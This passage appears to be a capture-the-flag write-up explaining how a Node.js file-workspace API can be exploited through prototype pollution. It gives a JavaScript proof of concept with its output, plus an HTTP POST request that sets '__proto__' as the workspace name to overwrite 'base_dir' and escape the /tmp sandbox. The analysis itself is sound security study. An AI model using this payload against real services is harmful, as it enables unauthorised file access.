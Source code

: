 ```javascript
        workspace[f_name] = f_path;
        return res.status(200).json({ok: true});
    });
```
the value of `f_path` was defined in logic of creating a file. it put the path value into f_name value of `workspace`. But in the if statement, if workspace of user is not defined, error occurs but we can create it that we request to `/api/users/:userid` as POST. And even if we created, `base_dir` is `/tmp/*` and the value `f_path` remove `.` chars using replace() method so we can't go to up. So we can't escape from base_dir using this function.

But `Prototype Pollution` occur when we make or read or delete a file. So I used it. it call several if statement after getting the value of several parameter. Here, important thing is way for calling object of users.

```plaintext
1. const user = users[userid];
2. const workspace = user.workspaces[ws_name];
3. workspace[f_name] = f_path;
```
Call all object of users as above. But here, we can use prototype pollution because be not checking the value `ws_name`

```plaintext
1. const workspace = user.workspaces[__proto__];
2. workspace[f_name] = f_path;
```
If the value of `ws_name` is `__proto__`, in second part workspace will be prototype object because the result value is prototype object. then we can pollute internal property to `f_path` using the `f_name`.

```javascript
const users = {}
users['asdf'] = {
            userid : 'asdf',
            pass : 'asdf',
            workspaces : {'asdf':{}},
            base_dir: '/tmp/a/nss'
        };
user = users['asdf']
const workspace = user.workspaces['__proto__'];
console.log(workspace)
workspace['asdf'] = 'polluted'

console.log(asdf)
```
```sh
❯ node poc.js
[Object: null prototype] {}
polluted
```
So, `Prototype Pollution` occur as above.

```http
POST /api/users/asdf/__proto__ HTTP/1.1
Host: localhost:8888
Content-Length: 97
Content-Type: application/json
Connection: close

{
    "token":"b168dbf118c3ee0fe6db7a3d576694b5e11dfae1",
    "file_name":"base_dir",
    "file_path":"/usr/src/app"
}
```
After creating a user, if we request as above, we can pollute the value what we want to `base_dir`.

